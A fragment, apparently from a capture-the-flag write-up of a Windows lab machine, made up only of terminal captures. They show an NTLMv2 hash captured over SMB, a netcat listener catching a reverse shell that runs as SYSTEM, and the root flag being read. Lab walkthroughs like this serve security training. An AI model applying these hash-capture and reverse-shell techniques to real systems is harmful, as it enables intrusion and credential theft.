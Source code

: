 ```bash
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:5fd11fc9f6cc3724acfde84f043b1d72:01010000000000008046e3536381da0167b141b477c8e25f00000000010010007100530072006e004c00520077007600030010007100530072006e004c00520077007600020010007500480075005a006c00420043004e00040010007500480075005a006c00420043004e00070008008046e3536381da0106000400020000000800300030000000000000000000000000400000ddc6f9f12cfdc0fd4d7049096a7d95a949c54ef52ba4f03393f0195cbfabcacb0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200320032000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
```

```bash
➜  content rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.222] from (UNKNOWN) [10.129.96.155] 52275
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

```bash
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
56b547be1d0d3bd3405a6e44e23e164b
```
